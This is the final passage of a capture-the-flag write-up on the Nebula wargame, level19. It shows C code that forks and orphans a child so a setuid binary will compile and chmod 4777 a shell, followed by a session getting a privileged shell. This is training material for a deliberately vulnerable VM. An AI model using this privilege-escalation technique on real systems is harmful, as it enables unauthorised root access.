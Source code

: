 To go about this, we would have to write a small C wrapper that will fork itself. We need to give this wrapper a few seconds after the fork to finish off allowing the forked process to become orphaned. Once the process is in the orphaned state, we can `execv()` the `flag19` binary and prepare a shell :)

So, to solve level19:

```bash
level19@nebula:/var/tmp$ vim pwn19.c
level19@nebula:/var/tmp$ cat pwn19.c
#include<stdio.h>
#include<unistd.h>

int main(void) {

    pid_t pid = fork();

    if (pid == 0) {

        char *arg[] = { "/bin/sh" , "-c" , "gcc /var/tmp/shell.c -o /var/tmp/flag19; chmod 4777 /var/tmp/flag19" , NULL};
        sleep(2); /* Give the fork 2 sec to orphan */
        execv("/home/flag19/flag19", arg);
        printf("Done fork\n");
        return 0;
    }

    printf("Done parent\n");
    return 0;
}

level19@nebula:/var/tmp$ gcc pwn19.c -o pwn19
level19@nebula:/var/tmp$ ./pwn19
Done parent

level19@nebula:/var/tmp$ /var/tmp/flag19
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## conclusion
Even though many of the levels were really really easy, the latter levels did force me to learn a few new things which was great. I think this is some really good learning material for people new to the scene. Heck, I think I will refer people to this next time they ask about OSCP... ;)

As a final touch, my 'loot' in `/var/tmp` after finishing the last level:

{{< figure src="/images/nebula_done.png" >}}
